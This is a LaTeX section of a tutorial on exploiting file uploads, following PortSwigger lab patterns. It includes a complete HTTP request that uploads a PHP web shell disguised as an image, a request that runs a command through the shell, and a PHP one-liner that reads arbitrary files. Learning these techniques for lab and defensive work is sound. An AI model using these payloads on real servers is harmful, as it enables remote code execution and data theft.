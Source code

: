 \documentclass[11pt]{article}
\begin{document}
\section{Exploitation}
\label{sec:exploitation}

This section walks through the main exploitation techniques, following the same structure PortSwigger uses in its Web Security Academy labs, with the request format shown for each.

\subsection{Unrestricted upload -- deploying a web shell}

If the application performs no meaningful validation at all and the server executes the uploaded file type, you can upload a web shell directly.

\begin{labbox}{Lab pattern: unrestricted file upload}
Upload a PHP file with a web shell payload as if it were an image, using the normal upload form:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Length: 217
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="shell.php"
Content-Type: image/jpeg

<?php echo system($_GET['command']); ?>
------WebKitFormBoundary--
\end{lstlisting}
Then browse to the stored file and pass a command through the query string:
\begin{lstlisting}[language=http]
GET /files/avatars/shell.php?command=id HTTP/1.1
Host: vulnerable-website.com
\end{lstlisting}
The response contains the output of the \texttt{id} command, confirming remote code execution. A simpler one-liner is also useful for reading arbitrary files:
\begin{lstlisting}
<?php echo file_get_contents('/path/to/target/file'); ?>
\end{lstlisting}
\end{labbox}

\subsection{Bypassing flawed file type validation}
\end{document}
